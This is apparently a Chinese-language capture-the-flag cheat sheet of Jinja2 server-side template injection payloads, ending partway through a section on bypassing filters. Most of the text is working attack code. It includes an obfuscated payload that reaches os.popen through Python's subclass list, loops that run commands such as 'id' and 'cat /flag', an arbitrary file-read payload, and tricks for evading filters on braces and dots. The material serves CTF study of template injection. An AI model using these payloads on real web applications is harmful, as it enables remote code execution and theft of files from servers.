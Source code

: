 ```c
{% set cmd='cat '~chr(47)~'flag' %}

# class 'os._wrap_close' -> popen
{%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['po''pen']('pwd')['rea''d']())%}


```


- 比如 `[xx]` 表示 `__subclasses__` 的第xx+1个
- 一般先扫目录找 flag 位置，再读 flag 文件


更自动的payload：
```bash
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cd ..;ls;cat flag').read()")}}{% endif %}{% endfor %}

{{ config.__class__.__init__.__globals__['os'].popen('cat /flag | base64').read()}}

# rce
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}

# readfile
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read()}}{% endif %}{% endfor %}

```

---
## 绕过

### `{{}}` 过滤

{%print 123%}` 绕过 `{}


### `.` 过滤

使用 JinJa2 函数`|attr()`  
- 将`request.__class__`改成`request|attr("__class__")`


`['']` 绕过`.` 

```
{{"".__class__}}  =  {{""['__class']}}
```


### `[]` 过滤
